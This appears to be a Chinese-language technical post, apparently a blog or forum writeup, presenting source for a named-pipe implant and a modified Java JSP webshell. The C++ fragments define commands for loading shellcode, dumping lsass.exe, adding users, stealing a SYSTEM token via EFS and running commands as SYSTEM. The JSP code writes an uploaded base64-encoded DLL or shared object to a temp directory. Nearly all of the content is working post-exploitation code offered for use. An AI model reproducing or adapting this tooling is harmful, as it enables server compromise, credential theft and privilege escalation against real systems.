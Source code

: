 ```cpp
                g_ShellcodeBuffer = new char[dwLen];
                RtlCopyMemory(g_ShellcodeBuffer, szBuffer, dwLen);
                g_dwShellcodeSize = dwLen;
                break;
            case METHOD_UNSET_SYSTEM_SHELLCODE:
                /// <summary>
                /// 清空全局Shellcode
                /// 参数：system-uncode
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                g_dwShellcodeSize = 0;
                g_ShellcodeBuffer = NULL;
                break;
                
            default:

                break;
            }
            // 关闭连接
            DisconnectNamedPipe(hPipe);
        }
```

METHOD开头的常量代表了不同的功能：

```cpp
#define PIPE_NAME L"\\\\.\\pipe\\josPipe"
#define BUFF_SIZE 1024
#define METHOD_WMI_CREATE_PROCESS 0x00 // WMIC 创建进程
#define METHOD_SHELL_CODE_LOADE 0x01  // SHELLCODE 加载
#define METHOD_MINIDUMP_LSASS 0x02   // 转储Lsass.exe
#define METHOD_ADD_USER 0x03  // 添加用户
#define METHOD_GETSYSTEM 0x04  // 利用EFS获取SYSTEM的Token
#define METHOD_SYSTEM_EXECUTE 0x05 // 以SYSTEM权限执行命令
#define METHOD_SET_SYSTEM_SHELLCODE 0x07 // 设置Shellcode
#define METHOD_UNSET_SYSTEM_SHELLCODE 0x08 // 取消设置Shellcode
```

Java Webshell的改造代码如下：

```cpp
<%@ page import="java.io.RandomAccessFile" %>
<%!
    private String getFileName(){
        String fileName = "";
        java.util.Random random = new java.util.Random(System.currentTimeMillis());
        String os = System.getProperty("os.name").toLowerCase();
        if (os.contains("windows")){
            fileName = "C:\\Windows\\Temp\\" + random.nextInt(10000000) + ".dll";
        }else {
            fileName = "/tmp/"+ random.nextInt(10000000) + ".so";
        }
        return fileName;
    }

    public String UploadBase64DLL(java.io.InputStream stream) throws Exception {
        sun.misc.BASE64Decoder b = new sun.misc.BASE64Decoder();
        java.io.File file = new java.io.File(getFileName());
        java.io.FileOutputStream fos = new java.io.FileOutputStream(file);
        fos.write(b.decodeBuffer(stream));
        fos.close();
        return file.getAbsolutePath();
    }

```